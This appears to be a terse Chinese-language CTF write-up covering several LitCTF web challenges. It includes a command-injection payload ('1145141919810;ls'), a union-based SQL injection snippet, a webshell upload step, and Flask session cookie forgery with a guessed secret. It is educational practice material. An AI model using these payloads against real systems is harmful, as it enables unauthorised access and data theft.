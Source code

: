 - # 我Flag呢？
	- 打开F12看源码
- # Follow me and hack me
	- GET和POST测试题目
- # Ping
	- 简单命令执行，payload: ``1145141919810;ls``
- # 导弹迷踪
	- `wget -r 网站`下载源码
	- 然后在`game.js`中看到flag：``{y0u_w1n_th1s_!!!}``
- # PHP是世界上最好的语言！！
	- 右边执行php代码，左边看结果
- # 作业管理系统
	- F12看到账户名和密码
	- 登陆上传webshell`123.php`，访问`/123.php`即可
- # vim yyds
	- `.index.php.swp`泄漏
- # 就当无事发生
	- `git clone`，然后`git diff HEAD^ HEAD`看最新commit和上一个commit的区别
- # 这是什么？SQL ！注一下 ！
	- 普通SQL注入，注意flag在`ctftraining.flag`这个表下，不在当前的数据库下
	- ```python
	  r = base_get(url, params = {
	      "id": "1)))))) union select 1,(select flag from ctftraining.flag)#"
	  })
	  # flag,news,users,users
	  # information_schema,mysql,ctftraining,performance_schema,test,ctf
	  print(r.text)
	  ```
- # Flag点击就送！
	- 题目环境为flask, 猜测需要flask解密cookie
	- 题目没有明显漏洞，secret应该只能猜出
	- 猜测secret为`LitCTF`，使用 [[CTF/Flask-Unsign]] 解密成功
	- 使用(Flask-Unsign)[[[CTF/Flask-Unsign]]]即可伪造cookie, 提交即可拿到flag
		- ```shell
		  flask-unsign -s --secret LitCTF --cookie '{"name":"admin"}'
		  ```
	-